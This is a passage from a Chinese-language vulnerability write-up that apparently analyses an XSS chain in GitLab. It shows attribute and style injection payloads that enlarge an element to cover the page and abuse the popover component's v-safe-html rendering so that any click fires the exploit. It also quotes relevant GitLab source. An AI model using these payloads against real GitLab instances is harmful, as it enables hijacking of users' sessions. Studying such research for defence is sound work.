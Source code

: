13. 触发上述xss需要点击按钮，因此攻击者又进一步将该按钮全屏化，只要点击页面任何位置就可以触发，这一步需要注入style样式。
    * 首先注入style属性，首先更改本img样式，为最大并且覆盖在页面上
        ```
        id=stage1 style="position:absolute;max-width:10000px;left:-1000px;top:-1000px;width:10000px;height:10000px;z-index:10000;"
        ```
    * 然后注入3个data属性
        ```
        data-triggers="click" data-toggle=popover data-html=true
        ```
    * 其中`data-toggle`和`data-html`属性将本元素定义为下拉菜单。由vue app负责页面初始化时进行扫描并且转换。搜索关键字： `data-toggle="popover` ，找到一处引用:
        *app/assets/javascripts/popovers/index.js*
        
        ![popover](popover.png)

        经过简单分析，该类会在网页初始化时自动执行，并且对所有包含data-toggle属性的元素进行popover下拉菜单构建。这个潜在的漏洞点已经碰到多次。因此就好办了，对于任何用属性作为选择器来操作元素的代码，是极其不安全的。并且这个漏洞点还有一点就是data属性的值配合vue的v-html或者v-safe-html来实现

    * `data-triggers`也是负责下拉菜单的初始化。由于gitlab项目中搜索triggers关键字（vue会去掉data前缀）没有任何收获，于是去掉该属性后发现Trigger不了，就是popover并不会出现，即使构造了popover app。由于目标元素（img）会传递给GlPopover组件，该组件在gitlab-ui依赖中于是在gitlab-ui项目寻找，发现了该属性的使用。也就是说不能删除该属性。删除之后popover触发不了，所以不会挂载到document中。也就是所，组件的初始化和是否挂载到document是两回事。经过测试，click和hover都能够触发挂载，但是click更稳定，而hover会不断触发挂载和移除，不够稳定想想也是，既然是下来菜单，需要点击或者hover才会渲染出现。
        参考：[https://gitlab.com/gitlab-org/gitlab-ui/-/blob/main/src/components/base/popover/popover.vue](https://gitlab.com/gitlab-org/gitlab-ui/-/blob/main/src/components/base/popover/popover.vue)
    * 和最后两个data属性，主要更改了按钮类svg.chevron-right的属性让其覆盖在所有元素之上。
        ```
        data-title="aaa&lt;style&gt;#stage1{pointer-events:none}svg.chevron-right{position:absolute;max-width:10000px;left:-1000px;top:-1000px !important;width:10000px;height:10000px;z-index:10001;}&lt;/style&gt;bbb" 
        data-content=ggg
        ```
        data-title和data-content的值都会传入v-safe-html进行渲染，这里就可以改变目标元素的css。让任意元素铺满屏幕等待用户点击触发。
        *app/assets/javascripts/popovers/components/popovers.vue*
        ```
        <template>
          <div>
            <gl-popover v-for="(popover, index) in popovers" :key="index" v-bind="popover">
              <template #title>
                <span v-if="popover.html" v-safe-html:[$options.safeHtmlConfig]="popover.title"></span>
                <span v-else>{{ popover.title }}</span>
              </template>
              <span v-if="popover.html" v-safe-html:[$options.safeHtmlConfig]="popover.content"></span>
              <span v-else>{{ popover.content }}</span>
            </gl-popover>
          </div>
        </template>
        ```
        注意vue中的data属性不带data字样，例如：
        *app/assets/javascripts/popovers/components/popovers.vue*
        ```